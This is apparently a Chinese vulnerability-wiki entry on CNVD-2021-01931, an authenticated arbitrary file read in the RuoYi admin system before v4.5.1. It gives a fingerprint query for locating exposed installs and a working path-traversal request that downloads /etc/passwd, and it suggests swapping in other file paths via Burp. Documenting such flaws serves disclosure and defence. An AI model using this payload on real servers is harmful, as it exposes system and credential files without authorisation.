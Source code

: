 # 若依管理系统 后台任意文件读取 CNVD-2021-01931

## 漏洞描述

若依管理系统是基于SpringBoot的权限管理系统,登录后台后可以读取服务器上的任意文件

## 漏洞影响

<a-checkbox checked>RuoYi < v4.5.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="若依-管理系统"</a-checkbox></br>

## 漏洞复现

登录后台后访问 Url

```shell
/common/download/resource?resource=/profile/../../../../etc/passwd
```

![img](/assets/PeiQi-Wiki/img/ruoyi-1.png)



访问后会下载文件 `/etc/passwd`



![img](/assets/PeiQi-Wiki/img/ruoyi-2.png)



可以使用Burp抓包改变 `/etc/passwd` 为其他文件路径获取敏感信息

![img](/assets/PeiQi-Wiki/img/ruoyi-4.png)



![img](/assets/PeiQi-Wiki/img/ruoyi-5.png)



在新版本的修复中添加了过滤

![img](/assets/PeiQi-Wiki/img/ruoyi-7.png)